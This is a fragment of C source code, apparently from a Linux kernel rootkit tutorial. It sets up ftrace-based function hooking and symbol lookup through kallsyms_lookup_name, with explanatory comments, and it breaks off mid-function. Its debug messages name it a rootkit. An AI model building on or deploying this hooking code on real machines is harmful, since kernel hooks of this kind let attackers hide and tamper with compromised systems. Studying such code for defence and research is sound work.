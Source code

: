         #define HOOK(_name, _hook, _orig)   \
        {                   \
            .name = (_name),        \
            .function = (_hook),        \
            .original = (_orig),        \
        }

        /* We need to prevent recursive loops when hooking, otherwise the kernel will
        * panic and hang. The options are to either detect recursion by looking at
        * the function return address, or by jumping over the ftrace call. We use the 
        * first option, by setting USE_FENTRY_OFFSET = 0, but could use the other by
        * setting it to 1. (Oridinarily ftrace provides it's own protections against
        * recursion, but it relies on saving return registers in $rip. We will likely
        * need the use of the $rip register in our hook, so we have to disable this
        * protection and implement our own).
        * */
        #define USE_FENTRY_OFFSET 0
        #if !USE_FENTRY_OFFSET
        #pragma GCC optimize("-fno-optimize-sibling-calls")
        #endif

        /* We pack all the information we need (name, hooking function, original function)
        * into this struct. This makes is easier for setting up the hook and just passing
        * the entire struct off to fh_install_hook() later on.
        * */
        struct ftrace_hook {
            const char *name;
            void *function;
            void *original;

            unsigned long address;
            struct ftrace_ops ops;
        };

        /* Ftrace needs to know the address of the original function that we
        * are going to hook. As before, we just use kallsyms_lookup_name() 
        * to find the address in kernel memory.
        * */
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);

            if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }

